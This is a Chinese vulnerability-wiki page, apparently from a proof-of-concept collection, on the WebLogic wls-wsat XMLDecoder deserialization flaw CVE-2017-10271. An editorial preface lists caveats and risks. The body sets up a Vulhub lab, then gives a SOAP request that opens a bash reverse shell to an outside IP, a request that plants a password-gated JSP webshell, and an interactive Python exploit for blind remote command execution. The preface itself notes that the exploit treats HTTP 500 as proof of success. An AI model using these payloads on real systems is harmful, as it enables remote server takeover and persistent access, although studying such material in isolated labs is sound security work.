



# Weblogic < 10.3.6 wls-wsat XMLDecoder 反序列化漏洞 CVE-2017-10271

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：Exposed unpatched WLS-WSAT; Linux raw-request examples and Windows Python exploit differ
- 证据范围：Useful lab steps and escaped XML shell example, but webshell object-tag variant depends on earlier patch state, unlike the void-tag 10271 bypass.

### 本次正文校订

- 按实际内容修正 3 处代码围栏语言标记，保留其中方法与请求内容。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- Title <10.3.6 incorrectly excludes demonstration version and ignores 12.x branches
- HTTP 500 is treated as command-execution success, although it is not evidence
- Exploit uses cmd /c while lab payload assumes Linux; platform distinction missing
- Hardcoded temporary deployment directory and Content-Length are environment-specific
- No fixed patch or cleanup; source Markdown link contains unescaped spaces

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。
- 含落盘脚本或账户创建：会留下持久状态。记录本次生成的路径或账户，测试后清理这些对象并撤销关联令牌；不要删除既有业务对象。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

## 漏洞描述

Weblogic的WLS Security组件对外提供webservice服务，其中使用了XMLDecoder来解析用户传入的XML数据，在解析的过程中出现反序列化漏洞，导致可执行任意命令。

参考链接：

- https://www.exploit-db.com/exploits/43458/
- https://paper.seebug.org/487/
- [https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic%20WLS-WebServices组件反序列化漏洞分析.md](https://github.com/Tom4t0/Tom4t0.github.io/blob/master/_posts/2017-12-22-WebLogic WLS-WebServices组件反序列化漏洞分析.md)
- http://blog.diniscruz.com/2013/08/using-xmldecoder-to-execute-server-side.html

## 环境搭建

Vulhub启动测试环境：

```shell
docker-compose up -d
```

等待一段时间，访问`http://your-ip:7001/`即可看到一个404页面，说明weblogic已成功启动。



## 漏洞复现

### 反弹shell

发送如下数据包（注意其中反弹shell的语句，需要进行编码，否则解析XML的时候将出现格式错误）：

```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 633

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"> <soapenv:Header>
<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
<java version="1.4.0" class="java.beans.XMLDecoder">
<void class="java.lang.ProcessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>bash -i &gt;&amp; /dev/tcp/192.168.174.128/9999 0&gt;&amp;1</string>
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

成功获取shell：



### webshell

```http
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
    <% if("poc".equals(request.getParameter("pwd"))){
    java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
    int a = -1; byte[] b = new byte[2048]; out.print("<pre>");
            while((a=in.read(b))!=-1){
                out.println(new String(b,0,a));
            }
            out.print("</pre>");
        }
    %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

访问：`http://your-ip:7001/bea_wls_internal/test.jsp`，执行命令：




## 漏洞EXP

```python
from __future__ import print_function
from builtins import input
import requests
import sys

url_in = sys.argv[1]
payload_url = url_in + "/wls-wsat/CoordinatorPortType"
payload_header = {'content-type': 'text/xml'}


def payload_command (command_in):
    html_escape_table = {
        "&": "&amp;",
        '"': "&quot;",
        "'": "&apos;",
        ">": "&gt;",
        "<": "&lt;",
    }
    command_filtered = "<string>"+"".join(html_escape_table.get(c, c) for c in command_in)+"</string>"
    payload_1 = "<soapenv:Envelope xmlns:soapenv=\"http://schemas.xmlsoap.org/soap/envelope/\"> \n" \
                "   <soapenv:Header> " \
                "       <work:WorkContext xmlns:work=\"http://bea.com/2004/06/soap/workarea/\"> \n" \
                "           <java version=\"1.8.0_151\" class=\"java.beans.XMLDecoder\"> \n" \
                "               <void class=\"java.lang.ProcessBuilder\"> \n" \
                "                  <array class=\"java.lang.String\" length=\"3\">" \
                "                      <void index = \"0\">                       " \
                "                          <string>cmd</string>                 " \
                "                      </void>                                    " \
                "                      <void index = \"1\">                       " \
                "                          <string>/c</string>                  " \
                "                      </void>                                    " \
                "                      <void index = \"2\">                       " \
                + command_filtered + \
                "                      </void>                                    " \
                "                  </array>" \
                "                  <void method=\"start\"/>" \
                "                  </void>" \
                "            </java>" \
                "        </work:WorkContext>" \
                "   </soapenv:Header>" \
                "   <soapenv:Body/>" \
                "</soapenv:Envelope>"
    return payload_1

def do_post(command_in):
    result = requests.post(payload_url, payload_command(command_in ),headers = payload_header)

    if result.status_code == 500:
        print("Command Executed \n")
    else:
        print("Something Went Wrong \n")


print("***************************************************** \n" \
       "****************   Coded By 1337g  ****************** \n" \
       "*  CVE-2017-10271 Blind Remote Command Execute EXP  * \n" \
       "***************************************************** \n")

while 1:
    command_in = input("Eneter your command here: ")
    if command_in == "exit" : exit(0)
    do_post(command_in)
```


---

> 来源：Threekiii/Awesome-POC
